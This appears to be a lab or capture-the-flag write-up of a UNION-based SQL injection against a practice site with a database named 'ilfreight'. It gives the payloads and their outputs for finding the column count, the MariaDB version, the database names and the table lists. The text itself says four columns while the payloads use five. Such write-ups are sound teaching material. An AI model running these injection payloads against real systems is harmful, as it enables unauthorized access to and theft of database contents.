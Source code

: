 # Assessment

Here is the first successful injection results:

>cn' UNION select 1,2,3-- -

With the resulting output:

>Adam 	January 	1337$ 	5%
>James 	March 	1213$ 	8%

I then iterated through another UNION query to find out how many columns were in the table I am accessing:

>cn' UNION SELECT 1,2,3,4,5-- -

Once I determined there were four columns with the above injection, I used \@@version to determine the current version of the database being used:

>cn' UNION SELECT 1,\@@version,3,4,5-- -

This returned:

>10.3.22-MariaDB-1ubuntu1

Then I wanted to determine the current database name using the following query:

>cn' UNION SELECT 1,database(),3,4,5-- -

Which returned:

>ilfreight

Now that I knew the name of the database being used, I decided to determine what other databases were available with the following injection:

>cn' UNION select 1,schema_name,3,4,5 from INFORMATION_SCHEMA.SCHEMATA-- -

This returned the following:

>information_schema 	3 	4 	5
>mysql 	3 	4 	5
>performance_schema 	3 	4 	5
>ilfreight 	3 	4 	5
>backup 	3 	4 	5

From here I ruled out the default databases named information_schema, mysql, and performance_schema, and focused on the remaining databases named ilfreight and backup.

Now I decided to discover all the tables within the two databases of interest with the two following statements:

>cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4,5 from INFORMATION_SCHEMA.TABLES where table_schema='ilfreight'-- -

>cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4,5 from INFORMATION_SCHEMA.TABLES where table_schema='backup'-- -
